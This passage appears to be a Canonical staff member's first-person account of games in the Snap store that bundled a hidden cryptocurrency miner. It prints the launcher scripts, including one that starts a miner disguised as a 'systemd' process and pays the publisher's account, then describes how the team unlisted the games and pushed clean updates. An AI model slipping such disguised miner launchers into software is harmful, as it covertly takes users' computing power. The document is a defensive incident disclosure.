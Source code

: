 The `command-deamonx.wrapper` was a simple script to setup the environment, which then launched a further script called `start`.

```bash
#!/bin/sh
export PATH="$SNAP/usr/sbin:$SNAP/usr/bin:$SNAP/sbin:$SNAP/bin:$PATH"
export LD_LIBRARY_PATH="$LD_LIBRARY_PATH:$SNAP/lib:$SNAP/usr/lib:$SNAP/lib/x86_64-linux-gnu:$SNAP/usr/lib/x86_64-linux-gnu:$SNAP/usr/lib/x86_64-linux-gnu/mesa-egl:$SNAP/usr/lib/x86_64-linux-gnu/mesa"
export LD_LIBRARY_PATH=$SNAP_LIBRARY_PATH:$LD_LIBRARY_PATH
exec "desktop-launch" "$SNAP/start" "$@"
```

The `start` script launched a miner, sending any mined crypto to the publisher of the dodgy snap, who hid behind a protonmail account.

```bash
#!/bin/bash

currency=bcn
name=2048buntu


{ # try
/snap/$name/current/systemd -u myfirstferrari@protonmail.com --$currency 1 -g
} || { # catch
cores=($(grep -c ^processor /proc/cpuinfo))

if (( $cores < 4 )); then
    /snap/$name/current/systemd -u myfirstferrari@protonmail.com --$currency 1
else
    /snap/$name/current/systemd -u myfirstferrari@protonmail.com --$currency 2
fi
}
```

Once published these "Games with benefits" were downloaded by perhaps a hundred or more users. Along with the game they all got a bonus crypto miner running in the background on their computer. 

Perhaps amusingly, the miner was disguised as a process called `systemd`, which could plausibly & legitimately be consuming processing time on a client computer. 

Canonical was [notified](https://github.com/canonical/snapcraft.io/issues/651) via GitHub issue, by someone who spotted this early on Friday 11th May. I found out on Saturday morning while away from my PC, watching a football game. I pinged around some people out-of-hours and we had the applications unlisted from the store. 

The following week, while back at our desks, and after considerable discussion and rumination, we figured out a plan to *un-minerize* the client machines. For clients, the Snap store is effectively anonymous, so we couldn't notify people by email or popup that their machine was compromised. 

We considered the options and eventually decided to pull a benevolent version of the [Amazon Kindle 1984 debacle](https://www.theguardian.com/technology/2009/jul/17/amazon-kindle-1984). We took ownership of the three games, re-packaged them *without* the crypto miner, and published that as an update to the Snap store. 

Anyone who'd had the game+miner installed would get an automatic update, typically within a few hours of powering their computer on. This meant they could keep the game, and we'd throw away the miner. 
